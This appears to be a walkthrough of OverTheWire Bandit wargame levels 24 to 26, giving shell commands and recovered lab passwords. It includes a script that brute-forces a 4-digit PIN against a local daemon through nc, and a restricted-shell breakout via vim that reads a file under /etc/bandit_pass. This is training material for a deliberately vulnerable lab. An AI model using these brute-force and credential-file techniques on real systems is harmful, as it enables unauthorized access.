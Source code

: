 ```bash
rm -rf user123
```

### level 24-> 25

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

#### answers
```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
nmap -p- localhost
 mkdir /tmp/myBandit24
cd /tmp/myBandit24
 vim index.sh
#inside file
#!/bin/bash
for i in {0000..9999}; do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> combinations.txt
done
# end of file

cat index.sh
chmod +x index.sh
./index.sh

cat combinations.txt | nc localhost 30002 # finally this will response you  uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

rm /tmp/myBandit24

exit
```
### level 25 -> 26
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

#### answers
```bash
ssh bandit25@bandit.labs.overthewire.org -p 2220
cat /etc/passwd | grep bandit26
cat /usr/bin/showtext
ls
# resising the terminal to minimal
ssh -i bandit26.sshkey bandit26@localhost 
# press v to enable edit
type:
:e /etc/bandit_pass/bandit26 
# the password is
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```
### level 26 -> 27
Good job getting a shell! Now hurry and grab the password for bandit27!

